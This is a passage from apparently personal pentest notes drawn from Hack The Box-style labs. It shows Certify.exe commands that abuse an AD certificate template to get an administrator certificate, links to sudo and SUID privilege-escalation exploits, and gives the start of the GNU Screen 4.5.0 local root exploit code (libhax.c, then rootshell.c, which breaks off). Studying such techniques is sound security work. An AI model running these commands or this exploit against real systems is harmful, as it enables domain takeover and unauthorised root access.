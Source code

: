 Download Certify.exe or u can use certipy-ad

./Certify.exe find /vulnerable

![](vertopal_528d199b82d241d6abcc4565ee1c8434/media/image37.png){width="6.088542213473316in"
height="5.466022528433946in"}

Then

.\\Certify.exe request /ca:dc.sequel.htb\\sequel-DC-CA
/template:UserAuthentication /altname:administrator

![](vertopal_528d199b82d241d6abcc4565ee1c8434/media/image34.png){width="6.5in"
height="4.597222222222222in"}

# Linux Privilege Escalation

-   ## Always check backup file or password hunting

> ![](vertopal_528d199b82d241d6abcc4565ee1c8434/media/image9.png){width="6.291666666666667in"
> height="1.1979166666666667in"}

-   ## Check sudo version is vulnerable or not [[https://github.com/n3m1sys/CVE-2023-22809-sudoedit-privesc/blob/main/exploit.sh]{.underline}](https://github.com/n3m1sys/CVE-2023-22809-sudoedit-privesc/blob/main/exploit.sh) 

-   ## Check SUID or SGID [[https://juggernaut-sec.com/suid-sgid-lpe/#Hunting_for_SUID_SGID_Binaries\_%E2%80%93_Manual_Method]{.underline}](https://juggernaut-sec.com/suid-sgid-lpe/#Hunting_for_SUID_SGID_Binaries_%E2%80%93_Manual_Method) 

> [[https://github.com/Anon-Exploiter/SUID3NUM]{.underline}](https://github.com/Anon-Exploiter/SUID3NUM)

-   ## [[GNU Screen 4.5.0]{.underline}](https://www.exploit-db.com/exploits/41154)

> vim libhax.c
>
> cat libhax.c
>
> #include \<stdio.h\>
>
> #include \<sys/types.h\>
>
> #include \<unistd.h\>
>
> \_\_attribute\_\_ ((\_\_constructor\_\_))
>
> void dropshell(void){
>
> chown(\"/tmp/rootshell\", 0, 0);
>
> chmod(\"/tmp/rootshell\", 04755);
>
> unlink(\"/etc/ld.so.preload\");
>
> printf(\"\[+\] done!\\n\");
>
> }
>
> vim rootshell.c
>
> cat rootshell.c
>
> #include \<stdio.h\>
>
> int main(void){
>